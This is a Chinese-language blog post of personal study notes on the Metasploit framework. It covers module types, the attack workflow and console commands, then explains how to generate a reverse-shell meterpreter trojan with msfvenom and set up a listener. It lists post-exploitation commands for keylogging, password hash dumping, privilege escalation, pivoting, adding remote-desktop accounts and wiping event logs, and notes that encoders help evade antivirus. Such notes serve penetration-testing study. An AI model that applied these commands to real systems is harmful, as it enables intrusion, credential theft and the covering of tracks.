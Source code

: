 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      MSF笔记（一）               # 标题 
subtitle:   回顾整理一下之前的学习笔记
date:       2020-03-30              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```


## 0x00 Matesploit简单认识：
> Metasploit框架是一个开源工具，方便用于渗透测试，具有很好的拓展性，一般我们在kali进行渗透测试的时候经常会用它，有一个标准的使用流程：
寻找攻击模块->选择漏洞的利用模块并且配置->如有需要使用编码模块中的一个编码技术绕过查杀->渗透攻击->后渗透

**模块学习：**
- 1.auxiliaries（辅助模块）：不会在测试者和目标主机之间建立访问，只负责执行扫描、嗅探、指纹识别等想相关功能以辅助渗透测试
- 2.exploit（渗透利用模块）：包含各种poc验证程序，各种攻击代码
- 3.payload（攻击载荷模块）：攻击载荷是指我们期望目标系统在被渗透攻击之后完成实际攻击功能的代码，我们在该模块可以自由的选择、传送和植入。攻击载荷也可能是简单的在目标操作系统上执行一些命令，如添加用户账号等、
- 4.post（后期渗透模块）：该模块主要用于在取得目标系统远程控制权之后，进行一系列的后渗透攻击动作，如获取敏感信息、实施跳板攻击等、
- 5.encoders（编码模块）：该模块在渗透测试中负责免杀，以防止被杀毒软件、防火墙、ids及类似的安全软件检测出来。

**渗透攻击步骤**
- 在使用msf渗透测试的时候，可以综合利用以上模块，对目标系统进行侦察并发动攻击，大致的不走如下所示：
- 1、扫描目标机系统，寻找可用漏洞
- 2、选择并配置一个漏洞利用模块
- 3、选择并配置一个攻击载荷模块
- 4、有必要的选择一个编码技术，用来绕过杀毒软件的查杀
- 5、exploit，进行渗透攻击
- msf发动攻击成功后会获取目标主机的shell，攻击机和目标机之间会建立一个shell连接，

**msf常用操作**
- search xxxx ：搜索xxxx攻击利用模块
- use xxxx：使用攻击模块
- 进入攻击模块之后：show options/payloads/targets/advanced/evasion/missing
- set/unset:设置参数、取消设置的参数
- run/exploit:auxiliary模块常用run，exploits模块常用exploit，攻击成功后拿到shell不会立马进入shell，而是以后台的进程存在。
- jobs/kill:在后台运行的job、kill某进程
- info/edit:获取模块的基本信息、编辑当前exploit模块的代码
- check/back：配置完成后，判断目标ip漏洞是否存在，只有少数模块存在check。back指的是返回上一层。
- 对于msf数据库的处理：db_status/db_connect/db_disconnect
- db_import /xx/xx/xx.xml:数据库导入   db_export -f xml /xx/xx/xx.xml数据库导出
- sessions 显示获得的shell连接会话 sessions -i id进入指定id的session

**获取meterpreter会话**
> meterpreter是msf的一个payload，目标执行之后我们会得到一个会话，和常见的shell类似，但是具备更加强大的功能，是执行后渗透的实施通道。
- **通过msfenvom 生成木马获取** 
- 1、常用命令：`msfenvom -p windows/x64/meterpreter_reverse_tcp lhost=本地ip lport=本地监听端口 -f exe -o ./re.exe
- 2、本地监听
-- use exploit/multi/handler
-- set payload windowx/x64/meterpreter_reverse_tcp
-- set lhost ip
-- set lport port
-- run
- 3、投放木马并执行，此时msf便会得到一个meterpreter会话
- **通过cmdshell升级成meterpreter**
-- 如果我们利用msf获得的是cmdshell，该机器适合进行后渗透的话，可以利用命令升级成meterpreter：`sessions -u id`
- **meterpreter常用命令**
- session命令：查看获得的会话，使用-i可以连接到指定id的meterpreter会话
- help/background:帮助信息、后台挂起
- linux命令
- shell：获取目标主机的远程命令行shell
- upload：上传文件到目标主机，ps：`upload re.exe C:\\windows\\system32\`
- download: 下载目标主机的文件到我们的主机上 ，ps：`download C:\\windows\\system32\\config.txt /root/`
- edit: 调用vi编辑器修改文件
- search：在目标机器上查找搜索文件，`ps: search -d c:\\ -f *.dll`
- portfwd :端口转发，`ps: portfwd add -l 1111 -p 8080 -r 192.168.250.176`将8080端口转发到1111端口
- getuid：查看meterpreter注入到目标主机的进程所属用户
- getpid：查看meterpreter注入到目标主机上的注入进程的进程号
- execute：执行命令：一般配合-H隐藏窗口来执行，-f 后面加上文件名。
- run getgui:-e开启远程桌面服务，添加账户为 -u username -p password
- getsystem：提权命令，获取系统最高权限
- keyscan：键盘记录：keyscan_start/keyscan_dump/keyscan_stop
- hashdump:获取系统账号密码
- route命令：路由相关命令，借助该命令我们可以进一步渗透内网，添加一条路由，然后借助当前机器作为跳板攻击内网的其他主机。
- clearev：入侵痕迹擦除，在渗透利用过程中难免留下日志等信息痕迹，所以最后要执行clearev命令后再逃跑。
- 利用后渗透模块的内容进行更多功能的渗透。


